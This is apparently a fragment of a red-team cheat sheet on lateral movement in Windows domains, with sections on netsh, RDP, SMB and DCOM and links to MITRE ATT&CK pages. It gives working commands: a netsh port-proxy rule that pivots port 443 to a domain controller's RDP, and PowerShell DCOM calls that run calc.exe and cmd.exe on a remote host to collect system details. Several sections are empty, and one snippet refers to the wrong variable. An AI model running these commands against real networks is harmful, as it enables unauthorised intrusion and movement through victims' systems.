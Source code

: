 ### <a name='client-python-1'></a>client-python
```python
```

## <a name='netsh'></a>netsh
```powershell
# pivot from https to rdp
netsh interface portproxy add v4tov4 listenport=443 listenaddress=0.0.0.0 connectport=3389 connectaddress=$zdom_dc_ip
```

## <a name='rcp'></a>rcp

🔑 KEYPOINTS :
* service-port   : 
* service-process: 
* artifacts      : 

🔑 KEYPOINTS :
## <a name='rdp'></a>rdp

🔑 KEYPOINTS :
* service-port   : 3389
* service-process: 
* artifacts      : 

**sources**
* [TA0008 - Lateral Movement](https://attack.mitre.org/tactics/TA0008/)
* [T1563  - Remote session hijacking](https://attack.mitre.org/techniques/T1563/002/)
* [Masky](https://github.com/Z4kSec/Masky) 🔥🔥🔥
* [Remote session hijacking - hackingarticles.in](https://www.hackingarticles.in/rdp-session-hijacking-with-tscon/)

```bash
rdesktop $ztarg_computer_ip
```

## <a name='smb'></a>smb


🔑 KEYPOINTS :
* service-port   : 445
* service-process: 
* artifacts      : 


### <a name='dcom'></a>dcom

🔑 KEYPOINTS :
▶️ PLAY :
```powershell
# dcom shellwindows
ShellWindows:-
$calc = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","10.x.x.7"))
$calc[0].Document.Application.ShellExecute("calc.exe")

# dcom shellbrowserwindow
$calc2 = [activator]::CreateInstance([type]::GetTypeFromCLSID("c08afd90-f2a1-11d1-8455-00a0c91f3880","10.x.x.7"))
$calc[0].Document.Application.ShellExecute("cmd.exe", "/c (whoami & hostname & dir c:\) > c:\temp\test.txt", "c:\windows\system32", $null, 7)

# dcom mmc20
```